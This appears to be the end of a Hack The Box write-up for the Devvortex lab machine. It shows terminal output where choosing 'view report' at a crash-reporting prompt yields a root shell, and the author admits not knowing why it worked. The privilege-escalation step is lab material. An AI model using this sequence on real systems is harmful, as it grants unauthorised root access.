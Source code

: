 ``` bash
Please disconnect the problematic device now if it is still plugged in.

Press any key to continue... 


*** 

Please connect the problematic device now.

Press any key to continue... 

............................................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (799.7 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v
root@devvortex:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)


```

dont't know but somehow got privesc

https://twitter.com/intent/post?text=I just pwned Devvortex in Hack The Box!&url=https%3A%2F%2Fwww.hackthebox.com%2Fachievement%2Fmachine%2F629821%2F577&hashtags=hackthebox%2Chtb%2Ccybersecurity